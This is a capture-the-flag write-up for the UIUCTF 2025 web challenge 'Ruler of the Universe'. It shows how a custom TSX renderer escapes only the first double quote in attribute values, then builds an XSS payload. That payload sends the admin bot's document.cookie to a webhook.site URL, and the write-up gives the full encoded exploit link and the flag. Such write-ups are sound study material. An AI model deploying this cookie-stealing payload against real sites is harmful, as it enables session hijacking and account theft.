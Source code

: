 ```yaml
---
title: UIUCTF 2025 - Ruler of the Universe
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - typescript
  - xss
  - easy
authors:
  - Valenter
---
```

*With this ship I have the entire universe at my fingertips.*

Hi everyone, this is the first and easiest in a series of four sci-fi-inspired cosmic-web challenges from uiuctf. I only solved the first three, while my teammate simonedimaria worked on the fourth one, so I will only be tackling those.

First of all, let's take a second to appreciate the homepage of the challenge.
![Homepage](/uiuctf2025/ruler-of-the-universe/screenshot-1.png)

Straight out of last-century digital retrofuturism, System Shock or Neuromancer come to mind.

## Full diagnostic sweep of the mainframe

There's an *Admin Bot* link at the top, which points us in the direction of XSS.
![Admin-Bot](/uiuctf2025/ruler-of-the-universe/screenshot-2.png)

That's cool and all, but what can we actually interact with? Let's open those ominous Astra Main Frame modules at the bottom:
![Modules](/uiuctf2025/ruler-of-the-universe/screenshot-3.png)

Looks like we can leave a message for the crew, and it will appear under **Messages** at the bottom. Hmm, looks suspicious, let's pull up the ship's source code:

```ts
// module.tsx
const Module = ({
  id,
  crewMessage,
}: {
  id: number;
  crewMessage: string | null | undefined;
}) => {
  // ...
  <form class="mt-4" method="GET">
    <label for="message" class="block text-sm mb-1">
      Crew Message:
    </label>
    <input
      id="message"
      name="message"
      type="text"
      class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
      placeholder={
        crewMessage
          ? `Update your message: ${crewMessage}`
          : "Enter a message for the crew"
      }
    />
  </form>
  // ...
};
:contentReference[oaicite:2]{index=2}
```

`crewMessage` is taken directly from `index.tsx`'s `const crewMessage = new URL(req.url).searchParams.get("message");` and interpolated into the *placeholder*.
Diving deeper into how all of this gets rendered onto the page:

```ts
import { escapeHTML } from "bun";

export function render(element: any): string {
  if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
  }
//...
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          // Here is where double quotes are improperly escaped
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";

  const openTag = propString ? `<${type} ${propString}>` : `<${type}>`;
  return `${openTag}${children}</${type}>`;
}
```

The render function employs Bun's `escapeHTML`,  which makes the following replacements:
- `"` becomes `"&quot;"`
- `&` becomes `"&amp;"`
- `'` becomes `"&#x27;"`
- `<` becomes `"&lt;"`
- `>` becomes `"&gt;"`

however, it only does so for strings and numbers; for attributes, a much weaker substitution is in place:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```
but `replace` only takes care of the first instance of the character in a string.

## Initiating the breach protocol

Knowing all this, and with a bit of trial and error, we can craft a working payload:

```js
crewMessage = "" /><img src=x onerror="alert(1)" x="
```

During serialization:
- the first `"` in `""` becomes `&quot;`
- the second `"` closes the `input` attribute

the final markup becomes:

```js
<input … placeholder="Update your message: &quot;"
/>
<img src=x onerror="alert(1)" x=>
```

Now it's only a matter of adapting it to our purposes:

```js
"" /><img src=x onerror="fetch(\'%s?c=\'+encodeURIComponent(document.cookie))" x="
```

Finally, we encode it into the full URL and send a POST request with the link to the Admin Bot to visit the page and retrieve the flag, which is in the bot's cookies, by forwarding it to our webhook:

```
https://inst-8be5f028661a5917-ruler-of-the-universe.chal.uiuc.tf/module/0?message=img%22%22%20%2F%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F66ce23cb-d0e5-4bf5-9016-58351c7f0d51%3Fc%3D%27%2BencodeURIComponent%28document.cookie%29%29%22%20x%3D%22
```

**`uiuctf{maybe_i_should_just_use_react_c49b79}`**
